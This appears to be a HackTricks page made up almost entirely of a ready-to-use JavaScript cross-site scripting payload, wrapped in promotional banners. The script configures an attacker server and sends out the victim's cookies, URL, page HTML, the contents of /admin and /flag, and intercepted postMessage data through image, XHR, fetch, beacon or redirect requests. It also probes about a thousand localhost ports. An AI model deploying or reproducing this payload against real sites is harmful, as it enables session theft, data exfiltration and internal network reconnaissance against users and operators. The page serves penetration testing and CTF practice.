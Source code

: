 

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


```javascript
// SELECT HERE THE EXFILTRATION MODE (more than 1 can be selected)
// If any GET method is selected (like location or RQ_GET), it's recommended to exfiltrate each info 1 by 1
var ATTACKER_SERVER = "https://weecosb5a2k7jc0cwlyksg9qzh57tw.burpcollaborator.net"
var EXFIL_BY_IMG = false
var EXFIL_BY_RQ_GET = false
var EXFIL_BY_RQ_POST = true
var EXFIL_BY_FETCH_GET = false
var EXFIL_BY_FETCH_POST = false
var EXFIL_BY_NAV = false

var EXFIL_BY_LOC = false
var ALL_INFO = "" // Only used by Location exfiltration


// Function to make the data possible to transmit via either GET or POST
function encode(text){
    return encodeURI(btoa(text));
}

// Functions to exfiltrate the information
function exfil_info(info_name, text, is_final=false){
    if (EXFIL_BY_IMG)               exfil_by_img(info_name, text);
    if (EXFIL_BY_RQ_GET)            exfil_by_rq_get(info_name, text);
    if (EXFIL_BY_RQ_POST)           exfil_by_rq_post(info_name, text);
    if (EXFIL_BY_FETCH_GET)         exfil_by_fetch_get(info_name, text);
    if (EXFIL_BY_FETCH_POST)        exfil_by_fetch_post(info_name, text);
    if (EXFIL_BY_NAV)               exfil_by_nav(info_name, text);
    if (EXFIL_BY_LOC){
        if (is_final) exfil_by_loc(info_name, text);
        else ALL_INFO += "\n\n" + info_name + "=" + text;
    }
}

function exfil_by_img(info_name, text){
    new Image().src = ATTACKER_SERVER + "/exfil_by_img/" + info_name + "?" + info_name + "=" + text
}

function exfil_by_rq_get(info_name, text){
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", ATTACKER_SERVER + "/exfil_by_rq_get/" + info_name + "?" + info_name + "=" + text, true);
    xhttp.send();
}

function exfil_by_rq_post(info_name, text){
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", ATTACKER_SERVER + "/exfil_by_rq_post/" + info_name, true);
    xhttp.send(text);
}

function exfil_by_fetch_get(info_name, text){
    fetch(ATTACKER_SERVER + "/exfil_by_fetch_get/" + info_name + "?" + info_name + "=" + text, {method: 'GET', mode: 'no-cors'});
}

function exfil_by_fetch_post(info_name, text){
    fetch(ATTACKER_SERVER + "/exfil_by_fetch_post/" + info_name, {method: 'POST', mode: 'no-cors', body: text});
}

function exfil_by_nav(info_name, text){
    navigator.sendBeacon(ATTACKER_SERVER + "/exfil_by_nav/" + info_name, text)
}

function exfil_by_loc(info_name, text){
    document.location = ATTACKER_SERVER + "/exfil_by_loc/?a=" + encode(ALL_INFO);
}


// Functions to get the data to exfiltrate
function exfil_page_content(url){
    var xhr  = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            exfil_info(url, encode(xhr.responseText));
        }
    }
    xhr.open('GET', url, true);
    xhr.send(null);
}

function exfil_internal_port(port){
    fetch("http://127.0.0.1:" + port + "/", { mode: "no-cors" }).then(() => { 
        exfil_info("internal_port", encode(port));
    });
}


// Info to exfiltrate
exfil_info("cookies", encode(document.cookie));
exfil_info("current_url", encode(document.URL));
exfil_info("current_content", encode(document.documentElement.innerHTML));
exfil_page_content("/");
exfil_page_content("/admin"); // If 404 nothing will be sent
exfil_page_content("/flag");
exfil_page_content("/flag.txt");

top_1000 = [1,3,4,6,7,9,13,17,19,20,21,22,23,24,25,26,30,32,33,37,42,43,49,53,70,79,80,81,82,83,84,85,88,89,90,99,100,106,109,110,111,113,119,125,135,139,143,144,146,161,163,179,199,211,212,222,254,255,256,259,264,280,301,306,311,340,366,389,406,407,416,417,425,427,443,444,445,458,464,465,481,497,500,512,513,514,515,524,541,543,544,545,548,554,555,563,587,593,616,617,625,631,636,646,648,666,667,668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800,801,808,843,873,880,888,898,900,901,902,903,911,912,981,987,990,992,993,995,999,1000,1001,1002,1007,1009,1010,1011,1021,1022,1023,1024,1025,1026,1027,1028,1029,1030,1031,1032,1033,1034,1035,1036,1037,1038,1039,1040,1041,1042,1043,1044,1045,1046,1047,1048,1049,1050,1051,1052,1053,1054,1055,1056,1057,1058,1059,1060,1061,1062,1063,1064,1065,1066,1067,1068,1069,1070,1071,1072,1073,1074,1075,1076,1077,1078,1079,1080,1081,1082,1083,1084,1085,1086,1087,1088,1089,1090,1091,1092,1093,1094,1095,1096,1097,1098,1099,1100,1102,1104,1105,1106,1107,1108,1110,1111,1112,1113,1114,1117,1119,1121,1122,1123,1124,1126,1130,1131,1132,1137,1138,1141,1145,1147,1148,1149,1151,1152,1154,1163,1164,1165,1166,1169,1174,1175,1183,1185,1186,1187,1192,1198,1199,1201,1213,1216,1217,1218,1233,1234,1236,1244,1247,1248,1259,1271,1272,1277,1287,1296,1300,1301,1309,1310,1311,1322,1328,1334,1352,1417,1433,1434,1443,1455,1461,1494,1500,1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687,1688,1700,1717,1718,1719,1720,1721,1723,1755,1761,1782,1783,1801,1805,1812,1839,1840,1862,1863,1864,1875,1900,1914,1935,1947,1971,1972,1974,1984,1998,1999,2000,2001,2002,2003,2004,2005,2006,2007,2008,2009,2010,2013,2020,2021,2022,2030,2033,2034,2035,2038,2040,2041,2042,2043,2045,2046,2047,2048,2049,2065,2068,2099,2100,2103,2105,2106,2107,2111,2119,2121,2126,2135,2144,2160,2161,2170,2179,2190,2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381,2382,2383,2393,2394,2399,2401,2492,2500,2522,2525,2557,2601,2602,2604,2605,2607,2608,2638,2701,2702,2710,2717,2718,2725,2800,2809,2811,2869,2875,2909,2910,2920,2967,2968,2998,3000,3001,3003,3005,3006,3007,3011,3013,3017,3030,3031,3052,3071,3077,3128,3168,3211,3221,3260,3261,3268,3269,3283,3300,3301,3306,3322,3323,3324,3325,3333,3351,3367,3369,3370,3371,3372,3389,3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689,3690,3703,3737,3766,3784,3800,3801,3809,3814,3826,3827,3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000,4001,4002,4003,4004,4005,4006,4045,4111,4125,4126,4129,4224,4242,4279,4321,4343,4443,4444,4445,4446,4449,4550,4567,4662,4848,4899,4900,4998,5000,5001,5002,5003,5004,5009,5030,5033,5050,5051,5054,5060,5061,5080,5087,5100,5101,5102,5120,5190,5200,5214,5221,5222,5225,5226,5269,5280,5298,5357,5405,5414,5431,5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678,5679,5718,5730,5800,5801,5802,5810,5811,5815,5822,5825,5850,5859,5862,5877,5900,5901,5902,5903,5904,5906,5907,5910,5911,5915,5922,5925,5950,5952,5959,5960,5961,5962,5963,5987,5988,5989,5998,5999,6000,6001,6002,6003,6004,6005,6006,6007,6009,6025,6059,6100,6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547,6565,6566,6567,6580,6646,6666,6667,6668,6669,6689,6692,6699,6779,6788,6789,6792,6839,6881,6901,6969,7000,7001,7002,7004,7007,7019,7025,7070,7100,7103,7106,7200,7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777,7778,7800,7911,7920,7921,7937,7938,7999,8000,8001,8002,8007,8008,8009,8010,8011,8021,8022,8031,8042,8045,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8093,8099,8100,8180,8181,8192,8193,8194,8200,8222,8254,8290,8291,8292,8300,8333,8383,8400,8402,8443,8500,8600,8649,8651,8652,8654,8701,8800,8873,8888,8899,8994,9000,9001,9002,9003,9009,9010,9011,9040,9050,9071,9080,9081,9090,9091,9099,9100,9101,9102,9103,9110,9111,9200,9207,9220,9290,9415,9418,9485,9500,9502,9503,9535,9575,9593,9594,9595,9618,9666,9876,9877,9878,9898,9900,9917,9929,9943,9944,9968,9998,9999,10000,10001,10002,10003,10004,10009,10010,10012,10024,10025,10082,10180,10215,10243,10566,10616,10617,10621,10626,10628,10629,10778,11110,11111,11967,12000,12174,12265,12345,13456,13722,13782,13783,14000,14238,14441,14442,15000,15002,15003,15004,15660,15742,16000,16001,16012,16016,16018,16080,16113,16992,16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005,20031,20221,20222,20828,21571,22939,23502,24444,24800,25734,25735,26214,27000,27352,27353,27355,27356,27715,28201,30000,30718,30951,31038,31337,32768,32769,32770,32771,32772,32773,32774,32775,32776,32777,32778,32779,32780,32781,32782,32783,32784,32785,33354,33899,34571,34572,34573,35500,38292,40193,40911,41511,42510,44176,44442,44443,44501,45100,48080,49152,49153,49154,49155,49156,49157,49158,49159,49160,49161,49163,49165,49167,49175,49176,49400,49999,50000,50001,50002,50003,50006,50300,50389,50500,50636,50800,51103,51493,52673,52822,52848,52869,54045,54328,55055,55056,55555,55600,56737,56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389]
top_1000.forEach(port => exfil_internal_port(port));

if (EXFIL_BY_LOC){
    setTimeout(exfil_info("finish", "finish", true), 5000) // exfiltrate by location after 5s
}

// Sniff info
window.onmessage = function(e){
    exfil_info("onmessage", encode(e.data))
}
```


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


